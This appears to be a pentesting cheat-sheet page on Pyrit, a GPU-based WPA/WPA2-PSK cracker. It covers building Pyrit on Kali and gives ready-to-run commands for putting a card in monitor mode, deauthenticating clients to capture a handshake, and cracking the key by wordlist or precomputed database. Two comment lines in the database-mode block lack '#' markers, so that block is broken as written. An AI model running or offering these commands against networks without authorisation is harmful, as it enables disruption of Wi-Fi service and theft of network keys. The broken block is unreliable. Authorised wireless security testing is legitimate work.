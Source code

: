 # Pyrit Attack (WPA/WPA2)

A GPGPU-driven WPA/WPA2-PSK key cracker

Pyrit exploits the computational power of many-core- and GPGPU-platforms to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time tradeoff. It is a powerful attack against one of the world's most used security-protocols

## Setup

Pyrit is no longer installed on Kali by default. Also `apt install pyrit -y` does not work. Pyrit still uses Python2.

```bash
cd
sudo apt update -y
sudo apt install git python2-dev libssl-dev libpcap-dev -y
git clone https://github.com/JPaulMora/Pyrit.git --depth=1
sed -i "s/COMPILE_AESNI/COMPILE_AESNIX/" Pyrit/cpyrit/_cpyrit_cpu.c
cd Pyrit
python2 setup.py clean
python2 setup.py build
sudo python2 setup.py install
cd ..
pyrit -h
```

## Commands

```bash
# Monitor and save packets while doing a deauthentication attack
sudo airmon-ng start $DEVICE $CHANNEL
pyrit -r $INTERFACE -o $PCAP stripLive
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE
```
```bash
# Crack the secret in dictionary mode
pyrit -r $PCAP -i $WORDLIST -b $BSSID attack_passthrough
```

```bash
# Crack the secret in database mode
pyrit -i $WORDLIST import_passwords
password in pyrit with database mode
pyrit -e <ESSID> create_essid
point to the pyrit database
pyrit batch
pyrit -r $CAPTURE -b $BSSID attack_db
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [GoLinuxCloud Install on Kali](https://www.golinuxcloud.com/install-pyrit-in-kali-linux/)
* [Pyrit GitHub](https://github.com/JPaulMora/Pyrit)
* [Null Byte](https://null-byte.wonderhowto.com/how-to/crack-wpa-wpa2-wi-fi-passwords-with-pyrit-0196782/)
